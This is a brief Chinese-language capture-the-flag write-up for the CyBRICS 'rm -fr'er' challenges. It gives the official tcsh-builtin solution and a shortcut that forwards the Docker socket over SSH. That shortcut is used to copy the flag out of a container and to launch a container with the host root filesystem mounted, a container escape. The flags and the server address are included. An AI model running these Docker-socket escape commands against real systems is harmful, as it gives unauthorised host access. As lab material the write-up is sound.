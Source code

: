 # rm -fr'er

這系列有兩題

ssh上去之後，會開一個docker，然後跑`rm -rf /*`，目標是讀`/etc/ctf/flag.txt`

第一題預期解是靠tcsh的各種builtin command之類的招去讀 (官方解法: `( echo $< ) < /etc/ctf/flag.txt`)

但我們是直接打掉第二題，順便讀第一題的flag

方法就是以前trendmicro ctf碰過的梗

```
ssh rmrfer@178.154.210.26 -L 127.0.0.1:8889:/var/run/docker.sock
docker -H 127.0.0.1:8889 cp 9dc6acb3fd61:/etc/ctf/flag.txt .
```

`cybrics{TCSHizzl3_Ma_N1zzl3}`

第二題:

```
ssh rmrfer@178.154.210.26 -L 127.0.0.1:8889:/var/run/docker.sock
docker -H 127.0.0.1:8889 run  -v /:/tmp/z -ti ctb10 /bin/sh
```

`cybrics{h1d3_y0_FWDs_HiD3_Y0_fL4gS}`
